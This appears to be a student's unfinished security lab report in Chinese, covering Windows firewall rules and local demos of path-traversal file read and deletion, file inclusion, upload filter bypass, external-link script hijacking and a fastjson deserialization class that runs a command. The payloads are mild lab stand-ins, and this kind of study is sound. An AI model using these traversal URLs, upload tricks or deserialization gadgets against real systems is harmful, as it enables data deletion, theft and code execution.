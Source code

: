 
# lab11: 网络防火墙与入侵检测技术
- 配置 Windows 防火墙的安全策略并进行验证, 要求多次变更安全策略, 分析比较不同安全策略下的防护效果
- 将相关配置及验证结果界面截图并写入实验报告中

## 11.1 Windows 内置防火墙配置实验
- 通过出站规则禁止某程序(chrome.exe), 使得其无法联网/工作
- 通过出站规则禁止某协议(ICMPv4), 观察其影响
- 通过出站规则禁止 tcp 某端口号(port 25), 来观察其影响

### 禁止应用
选择 msedge.exe
![forbid](https://i.imgur.com/7ZkV5lI.png)

限制连接(注意要设置出站, 因为浏览器这里作为客户端)
![forbid](https://i.imgur.com/Jo5t5kg.png)
![forbid](https://i.imgur.com/3h1Ktg3.png)

可以看到浏览器无法访问baidu (注意这里可能要关闭全局代理)
![fail](https://i.imgur.com/jZTsLCZ.png)

修改规则为允许
```
![allow](https://i.imgur.com/HlUwpLf.png)
```

此时可以访问
![ok](https://i.imgur.com/WQpGCRL.png)

### 禁止 ICMPv4
通过阻止 ICMPv4 报文出站, 从而阻止本机 ping 通其他机器
![ping](https://i.imgur.com/BDZ5mjk.png)

此时 ping 的结果是
![fail-ping](https://i.imgur.com/kOzSthk.png)

改回来
![back](https://i.imgur.com/C4ijqru.png)

### 禁止 tcp 端口

![tcp25](https://i.imgur.com/7ikTuWs.png)

尝试连接
![try-smtp](https://i.imgur.com/WDppTqk.png)

删除规则,  能够连接
![back](https://i.imgur.com/1TnKvdJ.png)

## 11.2 snort 的安装与使用

- 安装 WinPcap 软件.
- 安装 snort 软件.
- 完善 snort 配置文件  snort.conf, 包括: 设置  snort  的内, 外网检测范围; 设置监测包含的规则.
- 配置 snort 规则.
- 尝试一些简单攻击, 使用控制台查看检测结果.
- 将每种攻击的攻击界面, snort  检测结果截图写入实验报告中.

<!-- TODO -->
![fail](https://i.imgur.com/aeDWiYU.png)

# lab12 文件安全

## 12.1 任意文件读取漏洞以及演示

点编辑然后抓包
![img](https://i.imgur.com/rmRhp8y.png)


D 盘搞一个文件)
![d](https://i.imgur.com/tgbWKBQ.png)
<!-- ![d](https://i.imgur.com/PVRFtHX.png) -->


不停回溯父级目录就能访问到这个文件
![a](https://i.imgur.com/FLC99oN.png)
![b](https://i.imgur.com/j1GbdxJ.png)

从而实现任意的文件读取

## 12.2 任意文件删除漏洞以及演示

假装进行一个代码审计发现了
```php
public function delbackdb(){
    //  接收filename GET 参数
    $filename = trim($_GET['filename']);
    //判断值真假
    if(!$filename){
            //如果没有
            rewrite::js_back('备份文件不存在');
    }
    //进入delOne
    $this->delOne($filename);
    addlog('删除数据库备份文件');
    rewrite::succ('删除成功');
}
```

那么就可以构造一个链接, 直接能删除文件
```
http://www.delredfile.com/admin.php?m=backdb&a=delbackdb&filename=../../../../../../1.txt
```

深藏功与名
![delete](https://i.imgur.com/uA1NlUH.png)
![none](https://i.imgur.com/wNw05WT.png)


第二个案例类似, 构造链接如下
```
http://www.74cms.com/admin/admin_article.php?act=del_img&id=1&img=../../../../../../../1.txt
```

结果
![delete](https://i.imgur.com/b2dMQHw.png)
![none](https://i.imgur.com/wNw05WT.png)

## 12.3 文件包含漏洞原理以及演示


梅开三度,写一个文件
![a](https://i.imgur.com/Hvr2gfC.png)

尝试执行其中的代码
```
<?php phpinfo();?>
```

然后通过相对目录访问文件
![dir](https://i.imgur.com/oit2Av9.png)

可以看到不断加 ../ 最终到达了 D 盘根目录, 成功把 1.txt 里面的内容包含进来执行, 看到了 php 的一些信息
![php](https://i.imgur.com/ISofxVq.png)


另外, 到 D:\phpstudy_pro\WWW\www.wailian2.com 这个目录新建一个 1.txt, 通过访问 wailian2.com 能读取文件内容
![read](https://i.imgur.com/3iAr8gO.png)


然后回到 dvwa 直接重定向 url 也能执行
![url](https://i.imgur.com/hdQJOjE.png)


## 12.4 任意文件上传漏洞原理以及演示

### low 难度

桌面搞一个 1.php
![php](https://i.imgur.com/89aPXKj.png)

然后直接上传
![uplaod](https://i.imgur.com/ylDuBpe.png)
![upload](https://i.imgur.com/wqAbVnw.png)

然后访问链接就能执行
![exec](https://i.imgur.com/YLvHdOf.png)

### medium 难度


burpsuite 抓包, 修改 Content-type
![con-type](https://i.imgur.com/lq3LbhV.png)

改成 image/jpeg,  然后就能上传成功

![ok](https://i.imgur.com/o32Vn8S.png)
说明服务端没有判断文件后缀, 而是判断文件类型

# lab13 高阶网络攻防练习

## 13.1 spring boot Actuator 常见漏洞

配好环境, 运行项目


env 和 trace 都造成的信息泄露
<!-- TODO: 8080 没开 -->


可以直接用 python 开一个 web 服务器
![py](https://i.imgur.com/wgzNQnL.png)
<!-- ![pyweb](https://i.imgur.com/lwO9EeZ.png) -->

## 13.2 外链安全风险漏洞原理以及演示

寻找外链
![link](https://i.imgur.com/ewgBEKc.png)


对应路径处放一个一个 js 脚本
![js](https://i.imgur.com/NPGkLNq.png)

当有用户访问时就会执行, 可替换为其他恶意代码进行攻击
![alert](https://i.imgur.com/BHPl4Lt.png)




## 13.3 第三方安全漏洞原理以及演示

### fastjson 反序列化漏洞

执行某 bat 脚本
![bat](https://i.imgur.com/YSsrPhh.png)


<!-- TODO -->


打开靶场
![fastbar](https://i.imgur.com/DKN7lN0.png)

```java
import java.lang.Runtime; 
import java.lang.Process; 
 
public class test { 
    static { 
        try { 
                Runtime rt = Runtime.getRuntime(); 
                String[] commands = {"notepad.exe"}; 
                Process pc = rt.exec(commands); 
                pc.waitFor(); 
        } catch (Exception e) { 
                // do nothing 
        } 
    } 
}
```


### shiro 反序列化漏洞
